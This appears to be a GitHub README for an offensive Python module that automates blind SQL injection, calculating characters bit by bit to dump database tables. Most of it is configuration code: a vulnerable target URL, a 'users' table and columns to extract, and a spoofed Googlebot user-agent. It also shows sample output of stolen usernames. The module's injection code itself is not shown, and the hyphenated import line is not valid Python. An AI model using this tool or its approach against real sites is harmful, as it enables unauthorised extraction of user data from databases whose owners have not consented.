 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** characters instead of guessing them. It requires 7/8 requests per character, depending on the configuration.

## Usage

```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration:

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin (optional)
x.options["row_condition"] = ""

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "users"

# Specify columns to dump
x.options["columns"] = "id, username"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='success'>true</p>"

# See below
x.options["assume_only_ascii"] = 1
```

The `assume_only_ascii` option makes the module assume that the characters it's dumping are all ASCII. Since the ASCII charset only goes up to `127`, we can set the first bit to `0` and not worry about calculating it. That's a `12.5%` reduction in requests. Testing locally, this yeilded an average speed increase of `15%`. Of course this can cause issues when dumping chars that are outside of the ASCII range. By default, it's set to `0`.

Once configured:

```
data = x.exploit()
```

This returns a 2-dimensional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'eclipse'], ['2', 'dotcppfile'], ['3', 'Acey'], ['4', 'Wardy'], ['5', 'idek']]`

Optionally, your scripts can then harness the [tabulate](https://pypi.python.org/pypi/tabulate) module to output the data:

```
from tabulate import tabulate

data = x.exploit()

print tabulate(data,
               headers='firstrow',  # This specifies to use the first row as the column headers.
               tablefmt='psql')     # Using the SQL output format. Other formats can be used.
```

This would output:

```
+------+------------+
|   id | username   |
|------+------------|
|    1 | eclipse    |
|    2 | dotcppfile |
|    3 | Acey       |
|    4 | Wardy      |
|    5 | idek       |
+------+------------+
```
